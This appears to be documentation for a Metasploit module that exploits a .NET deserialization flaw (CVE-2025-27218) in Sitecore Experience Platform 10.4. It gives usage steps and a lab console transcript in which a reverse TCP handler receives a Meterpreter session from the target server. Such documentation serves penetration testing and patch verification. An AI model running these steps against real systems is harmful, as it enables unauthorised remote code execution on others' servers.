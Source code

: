 ## Vulnerable Application
This module exploits a .NET deserialization vulnerability in Sitecore Experience Manager (XM) and Experience
Platform (XP) 10.4 before KB1002844 by injecting a malicious Base64-encoded BinaryFormatter payload into an HTTP header.

### Setup
The SiteCore installer can be downloaded from the [downloads page](https://developers.sitecore.com/downloads/Sitecore_Experience_Platform/104/Sitecore_Experience_Platform_104).
Note that a license is required to run the application.

## Verification Steps

1. Start msfconsole
2. Do: `use windows/http/sitecore_xp_cve_2025_27218`
3. Set the `RHOST` abd `LHOST`, options
4. Run the module
5. Receive a Meterpreter session as the `IIS APPPOOL\XP0.sc` user.

## Scenarios
### SiteCore XP 10.4.0 Revision 010422 running on Windows Server 2022
```
msf exploit(windows/http/sitecore_xp_cve_2025_27218) > set rhost xp0.sc
rhost => xp0.sc
msf exploit(windows/http/sitecore_xp_cve_2025_27218) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf exploit(windows/http/sitecore_xp_cve_2025_27218) > dns add-static xp0.sc 192.168.123.244
[*] Added static hostname mapping xp0.sc to 192.168.123.244
msf exploit(windows/http/sitecore_xp_cve_2025_27218) > run
[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. The target is running SiteCore.
[+] Server responded with 200, this probably means it worked.
[*] Sending stage (203846 bytes) to 192.168.123.244
[*] Meterpreter session 1 opened (192.168.123.1:4444 -> 192.168.123.244:49832) at 2025-03-27 08:58:13 -0700

meterpreter > getuid
Server username: IIS APPPOOL\XP0.sc
meterpreter > sysinfo
Computer        : WIN-2I9LBN2Q0R5
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```
